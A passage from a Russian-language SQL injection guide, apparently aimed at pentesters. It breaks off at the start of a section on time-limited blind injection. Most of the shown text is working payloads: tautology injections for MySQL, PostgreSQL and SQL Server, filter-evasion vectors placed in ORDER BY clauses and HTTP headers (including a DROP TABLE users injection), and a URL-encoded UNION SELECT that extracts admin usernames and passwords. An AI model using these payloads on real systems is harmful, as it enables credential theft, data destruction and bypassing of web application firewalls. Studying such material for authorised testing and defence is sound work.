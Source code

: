 
#### **6) Использование функций и операторов СУБД**

``` sql
-- MySQL
' OR CHAR(49)=CHAR(49)--

-- PostgreSQL  
' OR '1' ILIKE '1'--

-- SQL Server
' OR '1' LIKE '1'--
```

#### **7) Обход WAF/фильтров через неочевидные векторы**

```sql
-- Внедрение в другие параметры
-- ORDER BY, GROUP BY, LIMIT
ORDER BY (CASE WHEN (SELECT 1)=1 THEN column1 ELSE column2 END)

-- Внедрение в HTTP заголовки
User-Agent: ' OR 1=1--
X-Forwarded-For: '; DROP TABLE users--
```

**Сложный пример обхода WAF:**
```sql
-- Исходный запрос (заблокирован):
' UNION SELECT username, password FROM users WHERE admin=1--

-- Обходной вариант:
%55%4e%49%4f%4e%0a%53%45%4c%45%43%54%0a%75%73%65%72%6e%61%6d%65%2c%0a%70%61%73%73%77%6f%72%64%0a%46%52%4f%4d%0a%75%73%65%72%73%0a%57%48%45%52%45%0a%61%64%6d%69%6e%3d%31%2d%2d

-- Расшифровка (URL decode + hex):
UNION
SELECT
username,
password
FROM
users
WHERE
admin=1--
```

---

### **2. Слепая SQLi с ограничением времени (10 минут)**

При слепой SQLi с ограничением времени и невозможностью использовать substring (слишком медленно), пентестер должен действовать стратегически:

#### **План атаки на 10 минут:**
